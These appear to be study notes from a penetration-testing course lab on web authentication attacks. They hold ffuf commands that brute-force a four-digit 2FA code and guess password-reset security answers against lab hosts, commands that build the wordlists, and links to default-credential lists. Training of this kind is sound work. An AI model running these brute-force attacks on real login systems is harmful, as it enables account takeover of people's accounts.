 # Brute-Forcing 2FA Codes
### Attacking Two-Factor Authentication (2FA)

```bash
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

---
## Weak Brute-Force Protection
- Rate Limits
- CAPTCHAs

---
# Password Attacks
## Testing Default Credentials
 [Testing for Default Credentials](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials)
[CIRT.net](https://www.cirt.net/passwords)
[SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
[SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) 

---

## Vulnerable Password Reset
  ## Guessable Password Reset Questions
  https://github.com/datasets/world-cities/blob/main/data/world-cities.csv
```shell
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
```shell
wc -l city_wordlist.txt 
```
```shell
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
```shell
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```
```shell
wc -l german_cities.txt
```

---
